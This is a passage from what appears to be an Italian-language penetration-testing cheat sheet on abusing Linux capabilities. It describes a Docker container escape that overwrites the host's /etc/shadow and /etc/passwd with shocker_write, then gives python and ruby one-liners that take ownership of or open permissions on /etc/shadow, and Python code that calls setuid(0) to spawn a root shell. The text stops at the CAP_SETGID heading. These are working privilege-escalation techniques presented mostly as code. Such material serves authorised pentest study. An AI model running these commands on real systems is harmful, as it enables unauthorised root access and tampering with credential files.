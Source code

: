 Per scappare dal container Docker, è possibile **scaricare** i file `/etc/shadow` e `/etc/passwd` dall'host, **aggiungere** ad essi un **nuovo utente** e utilizzare **`shocker_write`** per sovrascriverli. Successivamente, è possibile **accedere** tramite **ssh**.

**Il codice di questa tecnica è stato copiato dal laboratorio "Abusing DAC\_OVERRIDE Capability" da** [**https://www.pentesteracademy.com**](https://www.pentesteracademy.com)

## CAP\_CHOWN

**Ciò significa che è possibile cambiare la proprietà di qualsiasi file.**

**Esempio con un binario**

Supponiamo che il binario **`python`** abbia questa capacità, è possibile **cambiare** il **proprietario** del file **shadow**, **cambiare la password di root** ed elevare i privilegi:
```bash
python -c 'import os;os.chown("/etc/shadow",1000,1000)'
```
Oppure con il binario **`ruby`** che ha questa capacità:
```bash
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```
## CAP\_FOWNER

**Questo significa che è possibile modificare i permessi di qualsiasi file.**

**Esempio con un binario**

Se Python ha questa capacità, è possibile modificare i permessi del file shadow, **cambiare la password di root** ed elevare i privilegi:
```bash
python -c 'import os;os.chmod("/etc/shadow",0666)
```
### CAP\_SETUID

**Questo significa che è possibile impostare l'ID utente effettivo del processo creato.**

**Esempio con un binario**

Se Python ha questa **abilità**, è possibile sfruttarla facilmente per ottenere privilegi di root:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
**Un altro modo:**
```python
import os
import prctl
#add the capability to the effective set
prctl.cap_effective.setuid = True
os.setuid(0)
os.system("/bin/bash")
```
## CAP\_SETGID

